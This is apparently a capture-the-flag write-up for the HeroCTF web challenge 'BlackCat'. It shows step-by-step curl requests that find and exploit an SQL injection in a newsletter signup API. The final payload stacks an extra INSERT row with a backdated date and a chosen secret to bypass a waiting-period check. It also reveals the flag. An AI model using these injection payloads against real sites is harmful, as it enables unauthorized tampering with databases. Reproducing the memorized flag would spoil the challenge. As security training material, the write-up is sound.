


# BlackCat

## Category

Web

## Author

Worty

## Description

```
You have heard about a new event that will take place in a secret location. At this event, there doesn't seem to be any legal conferences, and it seems to gather black hat. Find a way to get the location of this conference before the deadline.

https://blackcat.web.heroctf.fr

Format : Hero{}
Author : Worty
```

## Solve

When we arrive on the challenge, we see a page that invite us to enter our email to join the event, when we send it, we receive this :



So the website invite us to use curl, first, we will inspect the request to see how to forge our curl request :



So this give us the following curl request :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty@heroctf.fr"

{"ok":"Check at /api/check.php with your email as get parameter and this secret: 98e6e089107e7463f1c6 as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

So let's check if we are verify !

```sh
> curl https://blackcat.web.heroctf.fr/api/check.php?email=worty@heroctf.fr&secret=98e6e089107e7463f1c6

{"err":"You have not been verified yet. You have to wait 3 days in view of your enrolment date."}
```

We have to wait 3 days, but we need the place of this event right now ! We can check for several vulnerabilities (yes there is a self-xss on this website but it's useless). After testing, we found this :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email='"          

{"error":"An error occured, try again"}
```

Let's try a SQL injection :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty@heroctf.fr');--"

{"error":"An error occured, try again"}

> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty2@heroctf.fr','a');--"

{"ok":"Check at /api/check.php with your email as get parameter and this secret: 84e7af917d5b56d76753 as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

Let's try to test the secret that the API gave us :

```sh
> curl "https://blackcat.web.heroctf.fr/api/check.php?email=worty2@heroctf.fr&secret=84e7af917d5b56d76753"

{"err":"Wrong secret"}
```

This didn't work, so we can control the secret too ! See :

```sh
> curl "https://blackcat.web.heroctf.fr/api/check.php?email=worty2@heroctf.fr&secret=a"

{"err":"You have not been verified yet. You have to wait 3 days in view of your enrolment date."}
```

What we know here ? The table contain at least two fields: email and secret. If we try to inject a new tuple of values in the insert statement with two values, this will fail, so we're missing at least 1 column.

Here, there is two ways to flag :
- Enumerate the table via the SQL injection with an error based or time based
- Understand how the app works with errors, and thus determine that the missing column is the user's registration date.

After trying some payload for the position of columns, we found the right one :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty3@heroctf.fr','a'),('2022-06-30','wortyflag@heroctf.fr','HNjQKAMP');--"

{"ok":"Check at /api/check.php with your email as get parameter and this secret: 937a70cfb17fe7661faa as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}

> curl "https://blackcat.web.heroctf.fr/api/check.php?email=wortyflag@heroctf.fr&secret=HNjQKAMP"    

We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'
Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}BlackCat.
```

## Flag
Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}